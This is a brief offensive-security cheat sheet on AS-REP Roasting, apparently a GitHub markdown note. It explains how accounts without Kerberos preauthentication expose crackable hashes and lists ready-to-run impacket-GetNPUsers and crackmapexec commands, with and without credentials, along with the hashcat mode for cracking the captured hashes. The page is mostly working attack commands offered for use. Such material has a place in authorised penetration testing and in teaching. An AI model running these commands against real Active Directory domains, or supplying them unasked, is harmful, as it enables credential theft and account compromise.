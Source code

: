 # AS-REP Roasting
AS-REP attacks do not require the attacker to know the password for the account they are attempting to compromise. The attacker can obtain an AS-REP hash, crack it and obtain the password, provided the Kerberos preauthentication feature is disabled for that account.

When having credential for a non pre-auth account, the attacker can get the AS-REP hash for all non pre-auth accounts.

Need:
* Userlist without creds
* User with creds
* UF_DONT_REQUIRE_PREAUTH

Without creds - users from file:
`impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/' -usersfile <USERLIST>` 

With creds - all non pre-auth accounts from domain:
`impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' -request`
`crackmapexec ldap <IP> -u '<USER>' -p '<PASS>' --asreproast <OUTPUT.TXT>`

## Hashcat Mode
hashcat -m 18200